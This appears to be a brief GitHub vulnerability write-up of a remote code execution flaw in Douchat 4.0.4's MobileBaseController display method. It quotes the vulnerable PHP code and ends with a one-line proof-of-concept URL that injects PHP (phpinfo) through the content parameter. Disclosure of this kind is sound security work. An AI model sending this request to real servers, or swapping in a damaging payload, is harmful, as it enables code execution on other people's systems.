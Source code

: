 # Douchat4.0.4-RCE

Douchat's MobileBaseController.class.php page can be triggered by any template because the display method is set to public, which can trigger RCE vulnerability.

Core code
```
    public function display($templateFile='',$charset='',$contentType='',$content='',$prefix='') {
        global $_G;
        if (empty($templateFile)) {
            $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . ACTION_NAME . C('TMPL_TEMPLATE_SUFFIX');
        } else {
            $tempArr = explode('/', $templateFile);
            switch (count($tempArr)) {
                case 1:
                    $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . $tempArr[0] . C('TMPL_TEMPLATE_SUFFIX');
                    break;
                case 2:
                    $templateFile = $_G['addon_path'] . 'View/' . CONTROLLER_NAME . '/' . $tempArr[0] . '/' . $tempArr[1] . C('TMPL_TEMPLATE_SUFFIX');
                    break;
                default:
                    break;
            }
        }
        if (!is_file($templateFile)) {
            E('模板不存在:'.$templateFile);
        }
        parent::display($templateFile,$charset,$contentType,$content,$prefix);
    }
```
Direct rendering of content without security detection before parent :: display
POC:
```
index.php?s=/Mp/MobileBase/display&templateFile=././index.php&prefix=&content=<php>phpinfo();</php>
```
![](.\rce.png)
